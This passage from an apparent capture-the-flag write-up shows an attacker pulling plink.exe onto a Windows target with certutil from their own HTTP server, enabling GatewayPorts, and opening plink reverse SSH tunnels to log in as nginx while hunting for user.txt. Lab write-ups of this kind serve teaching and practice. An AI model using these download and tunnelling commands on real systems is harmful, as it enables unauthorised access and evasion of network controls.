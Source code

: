 First, we set up Python's SimpleHTTPServer to host the file. Then we pull the file using the following command.

```
certutil -urlcache -split -f http://10.10.15.127/plink.exe c:\users\nelson\appdata\local\temp\plink.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

_Set up SSH server_

In order for the local port to be forwarded to the remote port, `GatewayPorts` need to be enabled in `/etc/ssh/sshd_config`:

```
GatewayPorts yes
```

_Port forwarding with plink.exe_

Forward both ports: `2020/tcp` and `5080/tcp` with plink.exe like so.

```
start /min plink -R 2020:localhost:2020 -pw <password> root@10.10.15.127 -N
start /min plink -R 5080:localhost:5080 -pw <password> root@10.10.15.127 -N
```

Once that's done, we can give a shot at logging in to `nginx`'s account.


{% include image.html image_alt="9d3e1562.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/9d3e1562.png" %}


Holy cow. It works!


{% include image.html image_alt="30a18ac9.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/30a18ac9.png" %}


### Getting to `user.txt`

I was absolutely thrilled to see `user.txt` in current working directory which seems to be `c:\xampp`.


{% include image.html image_alt="592fa067.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/592fa067.png" %}


Only to realize it's a Windows Shortcut File (or LNK File). :angry:


{% include image.html image_alt="2468cedb.png" image_src="/973e285e-83a6-41ed-99ce-8bcdad3b4de2/2468cedb.png" %}


Well, at least now I know where `user.txt` is located and this is the real deal. While I was smashing my head trying to figure out how to read `c:\users\nginx\desktop\user.txt`, I saw something extraordinary at `/apps/testlink/htdocs/logs/userlog0.log`.
